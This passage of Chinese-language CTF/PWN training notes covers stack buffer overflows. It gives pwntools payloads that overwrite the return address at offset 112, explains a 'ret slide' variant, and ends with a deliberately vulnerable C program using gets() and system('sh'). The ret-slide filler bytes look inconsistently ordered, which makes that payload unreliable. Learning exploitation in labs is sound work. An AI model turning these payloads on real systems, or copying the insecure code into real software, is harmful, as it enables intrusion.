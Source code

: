 ![](/pics/BIN集训/PWN/二/6.png)

![](/pics/BIN集训/PWN/二/7.png)

![](/pics/BIN集训/PWN/二/8.png)

已知偏移量为 112 后，容易知道可以直接通过溢出在 RET 处覆盖原本的地址，直接跳至 `cmd()` 函数处。

payload 如下：

```python
from pwn import *
payload = "A" * 112 + "\x6b\x84\x04\x08"
p = process("./p1")
p.sendline(payload)
p.interactive()
```

### **Ret_slide**

在不知道返回地址偏移时，通过滑翔机（Ret_slide）设置 payload 减少尝试次数。即 RET 前的字符串利用其他 RET 地址来填充。

因为 RET 相当于 POP 和 JMP 两个步骤，每次 RET 都会重新返回到上一个地址，最后执行到目标地址时就会直接跳转。

payload：

```python
from pwn import *
payload = "\x08\x04\x84\xa0" * 28 + "\x6b\x84\x04\x08"
p = process("./p1")
p.sendline(payload)
p.interactive()
```

## 3-13

程序源码：

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
void A()
{
    setvbuf(stdout, 0, _IONBF, 0);
    srand(time(0) ^ getpid());
    char buf[100];
    int magic = rand();
    gets(buf);
    if (atoi(buf) == magic) {
        puts("Okay...");
        system("sh");
    }
}
int main(){
    A();
}
```
